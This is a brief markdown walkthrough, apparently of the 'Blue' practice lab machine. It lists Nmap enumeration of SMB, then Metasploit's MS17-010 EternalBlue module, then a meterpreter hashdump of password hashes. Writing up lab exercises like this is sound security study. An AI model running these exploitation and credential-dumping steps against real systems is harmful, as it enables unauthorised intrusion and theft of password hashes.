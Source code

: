 # Blue

# Enumeration

## Nmap

[Blue_Nmap.txt](Blue_Nmap.txt)

Discover the target system run SMB service

1. 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
2. 445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

## Metasploit

Using Metasploit to identify its Samba version (SMB 2.1)

1. msf6 > search scanner smb
2. msf6 auxiliary(scanner/smb/smb_version) > run

![image.png](image.png)

# Weaponization

1. Google Search ✅
Some resource returns it may be vulnerable to MS17-010 EternalBlue
2. Searchsploit ❌
3. Metasploit ✅
Use Metasploit to craft payload for it

# Exploitation

1. msf6 exploit(windows/smb/ms17_010_psexec) > check
    
    ![image.png](image%201.png)
    
2. msf6 exploit(windows/smb/ms17_010_psexec) > run
    
    ![image.png](image%202.png)
    

# Post-Exploitation

1. meterpreter > hashdump
    
    ![image.png](image%203.png)